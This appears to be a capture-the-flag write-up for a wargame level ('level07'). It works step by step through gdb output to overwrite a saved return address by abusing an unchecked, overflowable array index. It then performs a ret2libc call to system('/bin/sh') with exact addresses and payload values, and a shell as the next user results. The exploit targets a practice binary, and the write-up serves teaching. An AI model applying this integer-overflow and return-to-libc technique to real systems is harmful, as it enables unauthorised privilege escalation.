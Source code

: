 # Solution

the program read and store data from a int table.

the program do not check the bound of the table when we try to store or read
instead it just check if the index is divisible by 3 if it is it's reserved we can't use this index
but to store data the program multiplie the index by 4 (int table) and add it to the tab address

so we can pass the first check by giving a number not divisible by 3 then overflow with the multiplication by 4

since we can store any data anywhere in the program lets overwrite eip

-1 find offset

we need to find start address of our table and eip address

```sh
(gdb) b *main+520
Breakpoint 3 at 0x804892b
(gdb) c
Continuing.
 Index: 0
 Number at data[0] is 0
 Completed read command successfully
Input command: read

Breakpoint 3, 0x0804892b in main ()
(gdb) i f
Stack level 0, frame at 0xffffd620:
 eip = 0x804892b in main; saved eip 0xf7e45513
 Arglist at 0xffffd618, args: 
 Locals at 0xffffd618, Previous frame's sp is 0xffffd620
 Saved registers:
  ebx at 0xffffd60c, ebp at 0xffffd618, esi at 0xffffd610, edi at 0xffffd614,
  eip at 0xffffd61c

  Breakpoint 2, 0x080486dd in read_number ()

(gdb) p $ebp+0x8
$5 = (void *) 0xffffd430

(gdb) x/x $ebp+0x8
0xffffd430:	0xffffd454

# eip = 0xffffd61c  tab = 0xffffd454
# >>> (0xffffd61c - 0xffffd454) / 4
# 114
```

we can acces eip at tab[114] lets check

```sh
Continuing.
 Index: 114
 Number at data[114] is 4158936339
 Completed read command successfully

>>> hex(4158936339)
'0xf7e45513'

x/x 0xffffd61c
0xffffd61c:	0xf7e45513
```
but this index will be protecded so we need to overflow

(UINT_MAX + 1) / 4 + 114 = 4294967296 / 4 + 114 = 1073741938

```sh
Continuing.
 Index: 1073741938
 Number at data[1073741938] is 4158936339
 Completed read command successfully
```

we now control eip lets return to a shell

we have 2 options here to start a shell we can store a shellcode in our tab and put the tab addr at eip
but it will take to much time to build the shellcode 4 by 4 bytes and to calculate overflow

or we can build a shell with already stored value it's call ROP chain attack
this program is linked with libc

```sh
(gdb) info proc mappings
process 1933
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fd8000 0xf7fdb000     0x3000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
```

we can find "/bin/sh" and "system" function string in the shared libc

```sh
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) p system
$7 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

lets build our payloads:

eip = system
tab[1073741938] = 4159090384

eip+0x8 = /bin/sh
tab[116] = 4160264172

```sh
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
```
